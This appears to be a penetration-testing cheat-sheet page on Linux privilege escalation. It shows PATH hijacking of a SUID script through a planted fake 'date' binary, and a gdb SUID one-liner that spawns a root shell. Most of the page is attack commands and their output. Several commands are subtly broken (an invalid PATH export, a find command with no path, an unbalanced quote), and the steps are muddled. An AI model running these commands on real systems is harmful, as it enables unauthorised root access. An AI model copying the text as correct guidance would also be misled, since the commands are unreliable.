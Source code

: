 # Linux Privilege Escalation

## PATH Hijacking

```bash
# Find a SUID script (not listed in gtfobins)
# strings <FILE>
# You'll see that the script is using a command like 'date' and not '/usr/bin/date'
user@localhost~/$ find \-perm -4000 2>/dev/null 
/opt/file
user@localhost~/opt$ strings file
[...]
date
[...] 

user@localhost~/$ cd /tmp
user@localhost~/tmp$ nano date
user@localhost~/tmp$ chmod u+s /bin/bash
user@localhost~/tmp$ chmod +x date
user@localhost~/tmp$ export PATH:.:$PATH

# Run the SUID
# Maybe you'll see nothing. But run this 
user@localhost~/tmp$ bash -p 
root@localhost~/tmp$ whoami
root
root@localhost~/tmp$
```

## SUID Binaries

### gdb

If the binary gdb is SUID, you can do a Privilege Escalation with the nect command:

{% hint style="info" %}
With this command you need to have installed python in the machine.
{% endhint %}

```bash
./gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh, "-p")' -ex quit
```
